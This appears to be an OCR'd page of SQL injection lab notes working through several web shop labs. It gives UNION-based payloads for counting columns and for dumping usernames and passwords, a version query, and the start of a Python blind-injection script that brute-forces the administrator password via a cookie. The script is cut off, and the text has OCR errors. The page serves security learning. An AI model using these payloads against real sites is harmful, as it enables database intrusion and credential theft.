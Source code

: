 ### Third LAB

It's a web shop. We have another category parameter and we know its inserted in a `where` clause, the objective is to figure out the number of columns in the result set. As such, we do:

`' ORDER BY 1`. No error.
` ' ORDER BY 2`. There's no error until 4, which means it has 3 columns. According to the lab description, we must use the `NULL` technique to solve. So we do: `' SELECT NULL,NULL,NULL`

Generally speaking, we need to know which columns are being reflected to see the resulting set of the UNION query. We can do that by using a unique character in each value of the SELECT clause and see where that is reflected.

`'UNION SELECT 1,NULL,NULL`
`' UNION SELECT NULL,1,NULL`

### Fourth LAB

We need to combine the techniques portrayed earlier, so we insert in the category field: `' ORDER BY 2 -- `. No error. Increasing one more gives us an error, so we have 2 columns in the result set. Next, we see which ones can reflect text. We insert: `' UNION SELECT 'hello', 'hello2' --`. We see both of the fields reflect text, so we can just: `UNION SELECT username,password FROM users --`

### Fith LAB

Sometimes only one column is reflected, so we must concatenating the strings in order to see the output.

In this case, two are reflected but only one reflects text. First, we figure out which one with: `UNION SELECT 'random_text', NULL --` and `' UNION SELECT NULL, 'random_text' --`. We see the second column accepts text, so we place our payload there: `' UNION SELE T NULL,username||'~'||password FROM users --`

**Note: String concatenation is different with each SQL version**

We can query the database version in different ways depending on what type is being served.


### Sixth LAB

We use the techniques from before to figure out the columns in the result set and which one is being reflected. As such, the final payload is: `' UNION SELECT @@version, NULL -- -`

**Note:All SQL versions in the cheatsheet accept -- - as a comment**

Blind SQL injection happens when there is no input reflected on the HTTP response. To test this, an attacker needs to be ware of the output of the application - does the content-length change with different boolean sql logic? That is, the app returns data depending on the query, just not the data you asked for in the query.

### Seventh LAB

It's a blind SQLi, exploitable with the below script, because it looks for changes in the body, that take place if the query is true or not.

```

2:20 PM

import requests
import string

def main():
    password = ""
    for index in range(1, 21):
        for char in string.ascii_letters + string.digits:
            cookies = {"TrackingId":f"pcLJqgVbBsfqEax3' AND (SELECT SUBSTRING(password, 1, {index}) FROM users WHERE username='administrator')='{password}{char}", "session":"LJy9oeGMExJomNP7psWb31UBvNi3Vt6Q"}
```